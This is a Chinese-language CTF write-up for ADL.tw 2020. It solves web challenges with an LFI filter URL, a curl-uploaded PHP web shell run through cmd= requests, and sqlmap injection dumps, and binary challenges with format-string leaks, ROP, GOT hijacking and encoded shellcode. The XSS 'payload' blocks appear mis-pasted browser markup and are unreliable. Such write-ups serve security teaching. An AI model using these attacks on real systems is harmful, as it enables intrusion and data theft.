

[toc]

# 中央 adl.tw 2020

## cute pika

透過 LFI 下載檔案

```
http://ctf.adl.tw:12003/?skill=php://filter/read=convert.base64-encode/resource=pika.php
```

把檔案都載下來之後可以看到 sth cookie 是使用序列化產生


另外檢視原始碼之後可以看到 upload.html 之後可以找到 upload.php 檔案會被移動到 upload 中


一開可以先傳入 phpinfo 檢查看看有哪些不能使用的函數，而序列化的部份可以透過 `pika.php` 做修改即可，這邊上傳一個 web shell ，而檔名會回顯到 cookie

```bash
	curl 'http://ctf.adl.tw:12003/upload.php' -X POST -F 'my_file=@./shell.php' -vv --cookie 'sth='$(php exploit.php) | grep 'Set-Co'
```


```
http://ctf.adl.tw:12003/?skill=upload/7mYgO8rG7j.jpg
view-source:http://ctf.adl.tw:12003/?skill=upload/7mYgO8rG7j.jpg&cmd=ls -al /F14G
view-source:http://ctf.adl.tw:12003/?skill=upload/7mYgO8rG7j.jpg&cmd=cat /F14G/flag_QAZwsxEDCrfvTGByhnUJMik
```

```
ADLCTF{D0n7_m4kE_y0UR_sRc_cOd3_aCcesS1b13}
```

## Report to admin

```
<audio src="" controlslist="nodownload" controls="" style="-webkit-user-select: none !important; width: 250px; height: var(--inline-controls-bar-height); min-width: 44px !important; min-height: var(--inline-controls-bar-height)  !important; --inline-controls-bar-height:  31px; box-sizing: border-box; margin-top: 0px; margin-bottom: 0px;"></audio>
```

根據 cheat sheet 找到沒有被過濾的就是 audio

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

構造 payload 並且傳到 ngork

```
<audio src="" controlslist="nodownload" controls="" style="-webkit-user-select: none !important; width: 250px; height: var(--inline-controls-bar-height); min-width: 44px !important; min-height: var(--inline-controls-bar-height)  !important; --inline-controls-bar-height:  31px; box-sizing: border-box; margin-top: 0px; margin-bottom: 0px;"></audio>
```


```
/USERSESSID=ADLCTF%7B51mp1e_R3fl3c7!0n_X55_4774ck*-*0N_4dm1n%7D
```

```
ADLCTF{51mp1e_R3fl3c7!0n_X55_4774ck*-*0N_4dm1n}
```

## podkest

感覺像 盲 pwn ， potksed.doc 是 python 執行檔

其實不是盲 pwn ，他有給予原始檔案

https://ctf.adl.tw/podkest/src/server.c


server 保護全開

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled 
PIE:      PIE enabled
```

先直接對 server 逆向檢查看看有無不安全函數

printf 沒有找到不安全，但是有 fprintf ，可是難以蓋寫 exit 因為 Full RELRO


實際驗證可以看到格式化字串會被輸出


由於被結束的是 child process ，因此記憶體依然固定


也可輸入大量 `%p`

```
info %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p 
```

如果傳入 `%s` 如 `info %s%s%s%s%s%s%s%s%s%s` 只會使 child process 崩潰，不影響 parent

memcpy 是否有可能洩漏格外的資訊？



發現 url 溢出的可能


由於開 nx ，為了找出 canary 使用 fmtstr 找尋

```bash
for a in (seq 1 20)
do
	echo a
  echo info '%'a'p' | nc localhost 1337 
  echo 
done
```

我們可以看到 `%20$p` 最像 canary ，連到 remote 之後依然在 20 ，由於子 process 的 canary 相同，可以 leak 該值來 overflow


可以看到至少要讓 url 寫入 `0x38 (0x48 - 0x10)` 作為 padding 之後至少還可以寫入 26 個 ROP


但是空間不足以寫完整的 ret addr ，可以透過 `%28$p` 洩漏 .text 段，在進行 ret2text ，由於先前已經知道可控 stack 的位置 RBP -0xa0，如果把 stack 往上遷移，可以執行更長的 rop chain，透過先前 leak 計算 rbp  ，之後在 rbp - 0xa8 移動到 name 上

然而在 ret2libc 時要注意 [libc.so](http://libc.so).6 版本問題，不然 remote 會遇到問題，比方說 __libc_start_main 可以先減去該版本的 symbols offset ，之後在嘗試減到後四位 0x0000 的情況，就離 base 接近了

之後可以透過 rop 構造一個 read，當中除錯可以透過跳回原本的 function 如果依然重新運行的話就可以確定正常，反之 rop chain 異常。

```
ADLCTF{FMT-57R_1S_v32Y_D34Dly!H09E_U_L34Rned_s0M37ing_neeew!}
```

## libccc

```
[+] checksec for '/home/ubuntu/adl.tw/libccc' 
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

該題提示是 ret2libc ，並且可 overtflow ，而該題使用 one gadget 即可

## family

```
Arch:   amd64-64-little
RELRO:   Partial RELRO
Stack:   Canary found
NX:    NX enabled
PIE:    No PIE (0x400000)
```

據說不同 process 的 canary 是不同的？或許這個題目就是來驗證這個部份，而子程式的 canary 會與副程式相同，因此先進行 leak


然後一旦成功 leak 之後 透過工具產生 rop chain 即可

``` bash
ROPgadget --binary ./family --ropchain
```

而第二次因為跳回 main read 的位置，會對 rbp 進行轉移，但是 rbp 上必須要有 canary 才會正常運行，找尋方法看看能否直接執行 read


可以看到 read 需要 rdi, rsi, rdx, 而 rdi 要為 stdin = 0, rsi 要為 rsp 來寫入 stack, rdx 越大越好，如果直接 ret2plt 的話，最大為 0x50 ，還可以塞 2 gadgets 

rdi = 0

rsi = rsp

rdx = 任意大數

或者程式也有 push rsp ; ret 可以使用，可用來修復堆疊


或考慮跳到其他地方直接呼叫 syscall

最後還是考慮直接跳回去 main 開始的位置來寫入 rop

```
ADLCTF{W3_d0_Lo0k*$1mIl4R,*D0n7_wE?}
```

## lucky

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

rand 函數不安全


透過斷點在 cmp  (0x4008df)，並且檢視 rbp-0x20 的值 % 1000 可以獲得 0x17f = 383

但是程式在執行的時候會崩潰輸入 Place your bets ，追中發現是寫入無效地址 ，而這在 [pwnable.tw](http://pwnable.tw) 有類似的利用手法，可以透過正負號 - 來避免寫入，但這樣依然無法進行

可以透過 debug 發現實際上比較的是 address 而不是 value ，是否有辦法透過 overflow 的方式複寫呢(蓋寫 $rbp-0x10)？


 後還發現可以透過 welcome 所輸入的內容來控制 rdx，大概是因為變數沒有初始化導致堆疊內容殘留的問題，達成任意地址寫入的問題，回顧前面 RelRO : Partial 代表可以對 got 進行 hijack ，因此將 exit 的 got 覆蓋成 main 執行 shellcode 的位置


劫持後

```
ADLCTF{uuuuu_GOT_1m1lli0N_dOLL4R}
```

## helloctf2

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

main 有 gets ( 其實我是透過 xref 找到，理論上題目應該如此)，這題可能要 got hijack，沒有 ASLR 很容易 rop


由於是水題因此不需要洩漏 libc，稍微看了一下含有 system ，但是不是 x86 因此無法直接把 sh 放在 stack 上，還是需要一點 rop


題目也有給也含有 /bin/sh 的地址


結果直接跳到後門就可以了


為了避免堆疊異常導致問題，跳到 0x6d7 的位子即可


```
ADLCTF{M0vAps_13_$Uch_1mp0R74Nt_O^<}
```

## Pika-i (2)

Login Success! 後獲得 flag ，進去之後似乎沒有顯示相關東西可以直接使用 time based 。但是 Sqlmap  可以使用 Boolean-based blind 的方式進行，因為可以知道成功與不成功這種回顯，當中語法可以比較是否為特定值，若能成功則可以看到 flag ，不成功則看不到

```bash
sqlmap -u 'http://ctf.adl.tw:12004/login.php' --data 'ctf_username=*+&ctf_password=asdasd' --level 5 --risk 3 --technique B
```

再來透過 sqlmap 列舉表格

```bash
sqlmap -u 'http://ctf.adl.tw:12004/login.php' --tables --data 'ctf_username=*+&ctf_password=asdasd'
```

```
[12 tables]
+-----------------+
| flag1           |
| flag10          |
| flag2           |
| flag3           |
| flag4           |
| flag5           |
| flag6           |
| flag7           |
| flag8           |
| flag9           |
| sqlite_sequence |
| users           |
+-----------------+
```

```bash
sqlmap -u 'http://ctf.adl.tw:12004/login.php' --dump flag1 --data 'ctf_username=*+&ctf_password=asdasd' --threads 10
```

```
ADLCTF{IdNonMesFecGaxJacet9twetefCalNoa}
```

## ANALYZER

```
[+] checksec for '/home/ubuntu/ANALYZER'
Canary                        : ✓
NX                            : ✘
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
```

可以執行寫入值但是需要解碼


由於 arr 只跟 key 有關並且 xor code ，所以兩次就會還原，只需要把這段程式碼寫成另外的工具，或許可以逆向出 code 預設值，但如此需要爆 key，是否有其他利用方法?

當中考慮讓第一個成為 pop eax; jmp esp ，嘗試撞三 bytes 還是太久

```
asm('pop eax;jmp esp') 
```

是否有辦法只撞一個 bytes 之後執行 stack 上面的東西？

參考下表

http://xxeo.com/single-byte-or-small-x86-opcodes

先嘗試 2 bytes

asm('pop ebx; ret') = '[\xc3' 結果撞出密碼 0x1213d  

嘗試編寫 shellcode，不過在輸入 data 有進行檢查不能輸入 bin 與 sh 這邊採用 pwntools 的 xorEncoder 解決，另外必須注意 shellcode 的長度限制為 96 ，但是該工具產生的 shellcode 過長，乾脆執行 syscall 重新讀取 shellcode ，但實際上 check 有擋掉 \xcd\x80 (注: ghidra 分析的問題

這邊透過直接埋設 cd80 到 password 上，因為一旦到 data 上之後，就可以透過 jmp 到 cd80 ，並且重新撞密碼得出 0x14ba85，並且把最後兩 byte 設定成 cd80

而這邊編寫的時候必須確保把 key 都填滿，在解碼的時候本身是使用  0xb 的長度，在 pwntools 傳送 key 需要特別注意

